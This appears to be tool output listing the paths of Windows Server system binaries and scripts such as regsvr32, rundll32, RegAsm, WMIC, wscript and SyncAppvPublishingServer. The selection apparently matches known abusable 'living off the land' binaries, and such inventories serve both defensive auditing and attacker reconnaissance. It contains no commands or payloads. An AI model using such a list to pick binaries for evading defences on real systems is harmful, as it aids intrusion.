Path: C:\Windows\WinSxS\wow64_microsoft-windows-p..inscripts.resources_31bf3856ad364e35_10.0.20348.1_en-us_a27107cc49b7aaf0\pubprn.vbs
Path: C:\Windows\WinSxS\x86_microsoft-windows-p..inscripts.resources_31bf3856ad364e35_10.0.20348.1_en-us_3bfdc1f65cf977bf\pubprn.vbs
Path: C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
Path: C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
Path: C:\Windows\System32\rasautou.exe
Path: C:\Windows\SysWOW64\rasautou.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-rasautodial_31bf3856ad364e35_10.0.20348.1_none_9948fc3a2e59b5dc\rasautou.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-rasautodial_31bf3856ad364e35_10.0.20348.1_none_a39da68c62ba77d7\rasautou.exe
Path: C:\Windows\System32\reg.exe
Path: C:\Windows\SysWOW64\reg.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-r..-commandline-editor_31bf3856ad364e35_10.0.20348.1_none_bb033180f3b60f5e\reg.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-r..-commandline-editor_31bf3856ad364e35_10.0.20348.1_none_c557dbd32816d159\reg.exe
Path: C:\Windows\WinSxS\amd64_regasm_b03f5f7f11d50a3a_4.0.15806.0_none_721a928100ad3217\RegAsm.exe
Path: C:\Windows\WinSxS\wow64_regasm_b03f5f7f11d50a3a_4.0.15806.0_none_9be8d99ac1f7c734\RegAsm.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegAsm.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegAsm.exe
Path: C:\Windows\regedit.exe
Path: C:\Windows\SysWOW64\regedit.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_9c70900d0e37041a\regedit.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_a6c53a5f4297c615\regedit.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_9c70900d0e37041a\f\regedit.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_9c70900d0e37041a\r\regedit.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_a6c53a5f4297c615\f\regedit.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_a6c53a5f4297c615\r\regedit.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_9c70900d0e37041a\f\regedit.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-registry-editor_31bf3856ad364e35_10.0.20348.2849_none_a6c53a5f4297c615\f\regedit.exe
Path: C:\Windows\System32\regini.exe
Path: C:\Windows\SysWOW64\regini.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-regini_31bf3856ad364e35_10.0.20348.1_none_95c539f282d779f7\regini.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-regini_31bf3856ad364e35_10.0.20348.1_none_a019e444b7383bf2\regini.exe
Path: C:\Windows\System32\Register-CimProvider.exe
Path: C:\Windows\SysWOW64\Register-CimProvider.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-w..ter-cimprovider-exe_31bf3856ad364e35_10.0.20348.1_none_ecb89b8db4fca744\Register-CimProvider.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-w..ter-cimprovider-exe_31bf3856ad364e35_10.0.20348.1_none_f70d45dfe95d693f\Register-CimProvider.exe
Path: C:\Windows\WinSxS\amd64_regsvcs_b03f5f7f11d50a3a_4.0.15806.0_none_4535bd2753202ac7\RegSvcs.exe
Path: C:\Windows\WinSxS\x86_regsvcs_b03f5f7f11d50a3a_4.0.15806.0_none_8ce2f3fe679c53cd\RegSvcs.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegSvcs.exe
Path: C:\Windows\System32\regsvr32.exe
Path: C:\Windows\SysWOW64\regsvr32.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-regsvr32_31bf3856ad364e35_10.0.20348.1_none_01c61ad4f88a2eab\regsvr32.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-regsvr32_31bf3856ad364e35_10.0.20348.1_none_0c1ac5272ceaf0a6\regsvr32.exe
Path: C:\Windows\System32\replace.exe
Path: C:\Windows\SysWOW64\replace.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-m..ommandlineutilities_31bf3856ad364e35_10.0.20348.1_none_d1faec751f208de5\replace.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-m..ommandlineutilities_31bf3856ad364e35_10.0.20348.1_none_dc4f96c753814fe0\replace.exe
Path: C:\Windows\System32\RpcPing.exe
Path: C:\Windows\SysWOW64\RpcPing.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-rpc-ping_31bf3856ad364e35_10.0.20348.1_none_27290b9409bf1a51\RpcPing.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-rpc-ping_31bf3856ad364e35_10.0.20348.1_none_317db5e63e1fdc4c\RpcPing.exe
Path: C:\Windows\System32\rundll32.exe
Path: C:\Windows\SysWOW64\rundll32.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_80742457dd26ca19\rundll32.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_8ac8ceaa11878c14\rundll32.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_80742457dd26ca19\f\rundll32.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_80742457dd26ca19\r\rundll32.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_8ac8ceaa11878c14\f\rundll32.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_8ac8ceaa11878c14\r\rundll32.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_80742457dd26ca19\f\rundll32.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-rundll32_31bf3856ad364e35_10.0.20348.3451_none_8ac8ceaa11878c14\f\rundll32.exe
Path: C:\Windows\System32\runonce.exe
Path: C:\Windows\SysWOW64\runonce.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_bdfcaf44f1664f83\runonce.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_c851599725c7117e\runonce.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_bdfcaf44f1664f83\f\runonce.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_bdfcaf44f1664f83\r\runonce.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_c851599725c7117e\f\runonce.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_c851599725c7117e\r\runonce.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_bdfcaf44f1664f83\f\runonce.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-runonce_31bf3856ad364e35_10.0.20348.2849_none_c851599725c7117e\f\runonce.exe
Path: C:\Windows\System32\sc.exe
Path: C:\Windows\SysWOW64\sc.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-s..llercommandlinetool_31bf3856ad364e35_10.0.20348.1_none_fddd389c9db34909\sc.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-s..llercommandlinetool_31bf3856ad364e35_10.0.20348.1_none_0831e2eed2140b04\sc.exe
Path: C:\Windows\System32\schtasks.exe
Path: C:\Windows\SysWOW64\schtasks.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.1_none_13ae75177e5cf0f9\schtasks.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.3804_none_327dc4e1e7b7cfa9\schtasks.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.1_none_1e031f69b2bdb2f4\schtasks.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.3804_none_3cd26f341c1891a4\schtasks.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.3804_none_327dc4e1e7b7cfa9\f\schtasks.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.3804_none_327dc4e1e7b7cfa9\r\schtasks.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.3804_none_3cd26f341c1891a4\f\schtasks.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-sctasks_31bf3856ad364e35_10.0.20348.3804_none_3cd26f341c1891a4\r\schtasks.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\f\scriptrunner.exe
Path: C:\Windows\System32\ScriptRunner.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3561_none_74d77a40fa6a6894\ScriptRunner.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\ScriptRunner.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3561_none_74d77a40fa6a6894\f\ScriptRunner.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3561_none_74d77a40fa6a6894\r\ScriptRunner.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\f\ScriptRunner.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\r\ScriptRunner.exe
Path: C:\Windows\System32\setupapi.dll
Path: C:\Windows\SysWOW64\setupapi.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_dd642c78f87a118a\setupapi.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_e7b8d6cb2cdad385\setupapi.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_dd642c78f87a118a\f\setupapi.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_dd642c78f87a118a\r\setupapi.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_e7b8d6cb2cdad385\f\setupapi.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_e7b8d6cb2cdad385\r\setupapi.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-onecore-reverseforwarders_31bf3856ad364e35_10.0.20348.3804_none_4a833b6d9f1b4c10\f\setupapi.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_dd642c78f87a118a\f\setupapi.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-setupapi_31bf3856ad364e35_10.0.20348.3451_none_e7b8d6cb2cdad385\f\setupapi.dll
Path: C:\Windows\System32\shdocvw.dll
Path: C:\Windows\SysWOW64\shdocvw.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_8fe3c04d3e226505\shdocvw.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_9a386a9f72832700\shdocvw.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_8fe3c04d3e226505\f\shdocvw.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_8fe3c04d3e226505\r\shdocvw.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_9a386a9f72832700\f\shdocvw.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_9a386a9f72832700\r\shdocvw.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_8fe3c04d3e226505\f\shdocvw.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-shdocvw_31bf3856ad364e35_10.0.20348.3451_none_9a386a9f72832700\f\shdocvw.dll
Path: C:\Windows\System32\shell32.dll
Path: C:\Windows\SysWOW64\shell32.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3692_none_1486482e4444dbd3\shell32.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3804_none_1467782c445d62e8\shell32.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3692_none_1edaf28078a59dce\shell32.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3804_none_1ebc227e78be24e3\shell32.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3692_none_1486482e4444dbd3\f\shell32.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3692_none_1486482e4444dbd3\r\shell32.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3804_none_1467782c445d62e8\f\shell32.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3804_none_1467782c445d62e8\r\shell32.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3692_none_1edaf28078a59dce\f\shell32.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3692_none_1edaf28078a59dce\r\shell32.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3804_none_1ebc227e78be24e3\f\shell32.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-shell32_31bf3856ad364e35_10.0.20348.3804_none_1ebc227e78be24e3\r\shell32.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-onecore-reverseforwarders_31bf3856ad364e35_10.0.20348.3804_none_4a833b6d9f1b4c10\f\shell32.dll
Path: C:\Windows\System32\slmgr.vbs
Path: C:\Windows\SysWOW64\slmgr.vbs
Path: C:\Windows\WinSxS\amd64_microsoft-windows-security-spp-tools_31bf3856ad364e35_10.0.20348.2849_none_eddb20c6f17ebbc9\slmgr.vbs
Path: C:\Windows\WinSxS\wow64_microsoft-windows-security-spp-tools_31bf3856ad364e35_10.0.20348.2849_none_f82fcb1925df7dc4\slmgr.vbs
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-security-spp-tools_31bf3856ad364e35_10.0.20348.2849_none_eddb20c6f17ebbc9\f\slmgr.vbs
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-security-spp-tools_31bf3856ad364e35_10.0.20348.2849_none_f82fcb1925df7dc4\f\slmgr.vbs
Path: C:\Windows\WinSxS\amd64_microsoft-windows-wid_31bf3856ad364e35_10.0.20348.1_none_311a04ce24ebf2b7\SqlDumper.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\f\syncappvpublishingserver.exe
Path: C:\Windows\System32\SyncAppvPublishingServer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3561_none_74d77a40fa6a6894\SyncAppvPublishingServer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\SyncAppvPublishingServer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3561_none_74d77a40fa6a6894\f\SyncAppvPublishingServer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3561_none_74d77a40fa6a6894\r\SyncAppvPublishingServer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\f\SyncAppvPublishingServer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\r\SyncAppvPublishingServer.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\f\syncappvpublishingserver.vbs
Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3561_none_74d77a40fa6a6894\SyncAppvPublishingServer.vbs
Path: C:\Windows\WinSxS\amd64_microsoft-windows-a..nagement-appvclient_31bf3856ad364e35_10.0.20348.3804_none_74b0c468fa887140\SyncAppvPublishingServer.vbs
Path: C:\Windows\System32\syssetup.dll
Path: C:\Windows\SysWOW64\syssetup.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-syssetup_31bf3856ad364e35_10.0.20348.1_none_fa3f895160bd61d3\syssetup.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-syssetup_31bf3856ad364e35_10.0.20348.1_none_049433a3951e23ce\syssetup.dll
Path: C:\Windows\System32\tttracer.exe
Path: C:\Windows\SysWOW64\tttracer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.2849_none_0ca5e4b440510ca0\tttracer.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.3207_none_17379cdc74848b7e\tttracer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.2849_none_0ca5e4b440510ca0\f\tttracer.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.2849_none_0ca5e4b440510ca0\r\tttracer.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.3207_none_17379cdc74848b7e\f\tttracer.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.3207_none_17379cdc74848b7e\r\tttracer.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.2849_none_0ca5e4b440510ca0\f\tttracer.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-t..eldebugger-recorder_31bf3856ad364e35_10.0.20348.3207_none_17379cdc74848b7e\f\tttracer.exe
Path: C:\Windows\System32\url.dll
Path: C:\Windows\SysWOW64\url.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-ie-winsockautodialstub_31bf3856ad364e35_11.0.20348.1_none_ad8b49a291aad4e0\url.dll
Path: C:\Windows\WinSxS\x86_microsoft-windows-ie-winsockautodialstub_31bf3856ad364e35_11.0.20348.1_none_516cae1ed94d63aa\url.dll
Path: C:\Windows\WinSxS\amd64_netfx-vb_compiler_b03f5f7f11d50a3a_10.0.21800.715_none_ceab1830b94aa999\vbc.exe
Path: C:\Windows\WinSxS\amd64_netfx35linq-vb_compiler_orcas_31bf3856ad364e35_10.0.21800.715_none_b778ba3f440c9005\vbc.exe
Path: C:\Windows\WinSxS\amd64_netfx4-vbc_exe_b03f5f7f11d50a3a_4.0.15806.0_none_96eed05805687d60\vbc.exe
Path: C:\Windows\WinSxS\amd64_netfx4-vbc_exe_b03f5f7f11d50a3a_4.0.15806.630_none_8f42b6ecd98e147b\vbc.exe
Path: C:\Windows\WinSxS\x86_netfx-vb_compiler_b03f5f7f11d50a3a_10.0.21800.715_none_16584f07cdc6d29f\vbc.exe
Path: C:\Windows\WinSxS\x86_netfx35linq-vb_compiler_orcas_31bf3856ad364e35_10.0.21800.715_none_5b5a1ebb8baf1ecf\vbc.exe
Path: C:\Windows\WinSxS\x86_netfx4-vbc_exe_b03f5f7f11d50a3a_4.0.15806.0_none_de9c072f19e4a666\vbc.exe
Path: C:\Windows\WinSxS\x86_netfx4-vbc_exe_b03f5f7f11d50a3a_4.0.15806.630_none_d6efedc3ee0a3d81\vbc.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\vbc.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\vbc.exe
Path: C:\Windows\System32\verclsid.exe
Path: C:\Windows\SysWOW64\verclsid.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-verclsid_31bf3856ad364e35_10.0.20348.1_none_4555ceb9dc7ae299\verclsid.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-verclsid_31bf3856ad364e35_10.0.20348.1_none_4faa790c10dba494\verclsid.exe
Path: C:\Program Files\Windows Mail\wab.exe
Path: C:\Program Files (x86)\Windows Mail\wab.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_eaeb382909f0fbe5\wab.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_f53fe27b3e51bde0\wab.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_eaeb382909f0fbe5\f\wab.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_eaeb382909f0fbe5\r\wab.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_f53fe27b3e51bde0\f\wab.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_f53fe27b3e51bde0\r\wab.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_eaeb382909f0fbe5\f\wab.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-wab-app_31bf3856ad364e35_10.0.20348.2849_none_f53fe27b3e51bde0\f\wab.exe
Path: C:\Windows\System32\winrm.vbs
Path: C:\Windows\SysWOW64\winrm.vbs
Path: C:\Windows\WinSxS\amd64_microsoft-windows-w..for-management-core_31bf3856ad364e35_10.0.20348.3451_none_72d44827df44038a\winrm.vbs
Path: C:\Windows\WinSxS\wow64_microsoft-windows-w..for-management-core_31bf3856ad364e35_10.0.20348.3451_none_7d28f27a13a4c585\winrm.vbs
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-w..for-management-core_31bf3856ad364e35_10.0.20348.3451_none_72d44827df44038a\f\winrm.vbs
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-w..for-management-core_31bf3856ad364e35_10.0.20348.3451_none_7d28f27a13a4c585\f\winrm.vbs
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_49ebb006ff354f9e\f\wmic.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_54405a5933961199\f\wmic.exe
Path: C:\Windows\System32\wbem\WMIC.exe
Path: C:\Windows\SysWOW64\wbem\WMIC.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_49ebb006ff354f9e\WMIC.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_54405a5933961199\WMIC.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_49ebb006ff354f9e\f\WMIC.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_49ebb006ff354f9e\r\WMIC.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_54405a5933961199\f\WMIC.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-w..ommand-line-utility_31bf3856ad364e35_10.0.20348.2849_none_54405a5933961199\r\WMIC.exe
Path: C:\Windows\System32\wscript.exe
Path: C:\Windows\SysWOW64\wscript.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\wscript.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\wscript.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\f\wscript.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\r\wscript.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\f\wscript.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\r\wscript.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\f\wscript.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\f\wscript.exe
Path: C:\Windows\System32\wsl.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.20348.3692_none_2b4ba1ae01290cf9\wsl.exe
